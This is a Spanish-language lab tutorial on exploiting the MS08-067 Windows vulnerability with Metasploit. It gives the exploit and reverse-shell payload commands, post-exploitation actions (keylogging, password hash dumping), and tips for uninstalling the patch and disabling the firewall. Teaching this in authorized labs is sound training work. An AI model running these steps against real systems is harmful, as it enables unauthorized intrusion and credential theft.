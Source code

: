 # 🛡️ **Guía para Explotar MS08-067 con Metasploit**

________________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________

Esta guía explica paso a paso cómo explotar la vulnerabilidad MS08-067 (netapi) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
________________________________________
## 🛡️ **¿Qué es MS08-067 (NETAPI)?**
- Vulnerabilidad crítica en el servicio Server (netapi32.dll) de Windows.
- Permite ejecución remota de código sin autenticación.
- Afecta Windows XP SP2/SP3 y Server 2003 sin parches.
- Fue utilizada por el gusano Conficker.
________________________________________
## 🧰 **Requisitos del entorno de laboratorio**
-	💻 [Kali Linux (máquina atacante).](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina víctima: Windows XP SP2/SP3 sin parches.](https://archive.org/details/windows-xp-sp-2-september-2008)
- 🧱 [Máquina víctima: Linuix (opcional).](https://sourceforge.net/projects/metasploitable/)
- Ambas en la misma red (real o virtual).
________________________________________
## 🧪 **Paso a paso: Explotación con Metasploit**
________________________________________
**🔹 1. Obtener la IP de la víctima** (en la máquina Windows)
<pre>ipconfig.</pre>
________________________________________
**🔹 2. Iniciar Metasploit** (en Kali)
<pre>msfconsole</pre>
________________________________________
**🔹 3. Buscar el exploit**
<pre>search ms08_067</pre>
________________________________________
**🔹 4. Cargar el exploit**
<pre>use exploit/windows/smb/ms08_067_netapi</pre>
________________________________________
**🔹 5. Ver opciones**
<pre>show options</pre>

Debes configurar:
-	**RHOST:** IP de la víctima
-	**LHOST:** IP del atacante
-	**PAYLOAD:** tipo de shell que quieres usar
________________________________________
**🔹 6. Configurar opciones**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>
________________________________________
**🔹 7. Verificar configuración**
<pre>show options</pre>
________________________________________
**🔹 8. Ejecutar exploit**
<pre>exploit</pre>
________________________________________
## ✅ **Resultado esperado**
<pre> Meterpreter session 1 opened </pre> 
Se abre una shell Meterpreter si tuvo éxito.
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
- **sysinfo:** Info del sistema.
- **getuid:** Usuario actual.
- **shell:** Abre terminal.
- **download archivo:** Descargar archivo.
- **screenshot:** Captura de pantalla.
- **keyscan_start:** Inicia keylogger.
- **hashdump:** Extrae hashes de contraseñas.
________________________________________
## ❌ **Consejos adicionales**
- Para verificar si el Windows XP es vulnerable:
<pre> nmap -p 445 --script smb-vuln-ms08-067 <IP_víctima> </pre>
- Verificar si el parche MS08-067 esta instalado:
<pre> systeminfo | find "KB958644" </pre>
- En caso de estar instalado usar el siguiente comando para desinstalarlo:
<pre> wusa /uninstall /kb:958644 </pre>
- Desactivar firewall de Windows:
<pre> netsh firewall set opmode disable </pre>
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS08-067](https://www.exploit-db.com/exploits/7104)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/)
